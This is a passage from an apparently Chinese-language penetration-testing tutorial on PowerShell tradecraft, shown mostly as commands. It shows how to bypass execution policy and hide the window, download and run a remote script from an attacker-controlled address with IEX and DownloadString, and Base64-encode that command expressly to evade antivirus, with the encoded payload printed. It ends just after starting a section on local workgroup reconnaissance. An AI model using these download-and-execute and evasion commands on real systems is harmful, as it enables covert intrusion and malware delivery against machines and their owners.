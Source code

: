 ### 绕过本地权限并隐藏执行

加入`-WindowStyle Hidden -NoLogo -NonInteractive -NoProfile` 即可隐藏执行。

    
    
    PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile -File t.ps1

### 下载远程脚本绕过权限并隐藏执行

    
    
    PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"

或者简写

    
    
    PowerShell.exe -Exec Bypass -W Hidden -NoLogo -NonI -NoP "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"

### 利用 Base64 对命令进行编码

使用 Base64 进行编码主要是为了混淆代码以避免被杀毒软件查杀，经过尝试这里直接使用 Base64 编码是不行的，可以使用 Github
上的一个编码工具，工具下载地址：

https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py

下载好后，需要先将要执行的命令保存到文本文件中，这里保存到了 tmp.txt 文本中，之后执行 `python ps_encoder.py -s
tmp.txt` 即可

    
    
    >cat tmp.txtIEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')>python ps_encoder.py -s tmp.txtSQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA

使用 –Enc 指定 Base64 编码内容

    
    
    PowerShell.exe -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204322.png)

# 0x03 本地工作组信息收集

## 1、手动收集本地工作组信息

  * 查看当前权限

    
    
    whoami
